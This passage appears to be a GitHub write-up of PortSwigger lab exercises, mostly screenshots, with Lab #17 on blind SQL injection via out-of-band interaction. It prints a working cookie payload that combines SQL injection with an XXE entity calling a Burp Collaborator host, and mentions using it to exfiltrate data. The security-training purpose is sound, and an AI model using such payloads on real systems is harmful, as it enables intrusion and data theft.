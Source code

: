 The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

![WhatsApp Image 2023-05-31 at 09 50 30](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/178ae1c6-90fa-45d7-9a2c-62c92ad3e886)

![WhatsApp Image 2023-05-31 at 09 54 48](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a10eb73a-81b0-484f-abd9-6191b46290eb)

![WhatsApp Image 2023-05-31 at 09 55 40](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/738aa79f-1df3-46cb-831a-a00f04da396a)

![WhatsApp Image 2023-05-31 at 10 03 28](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/0045211d-9256-4351-8340-8c5c29840ad1)

![WhatsApp Image 2023-05-31 at 10 04 46](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/9dcfe34d-631d-45b5-93c4-6a504773b7d8)

![WhatsApp Image 2023-05-31 at 10 06 03](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/98347ac2-d48d-45f1-b913-e3f06bc03cbf)

**Lab #17 : Blind SQL injection with out-of-band interaction**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:

TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie.
The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application.

![WhatsApp Image 2023-06-26 at 18 48 59](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/0066a881-9870-41f4-84e3-d0fe8cd4863e)

![WhatsApp Image 2023-06-26 at 18 52 27](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/86f2f223-7217-41c7-b644-8a8cbb3ed6d0)

![WhatsApp Image 2023-06-26 at 18 52 56](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/49eb5881-da0e-44b6-8eae-e641aef7bae4)

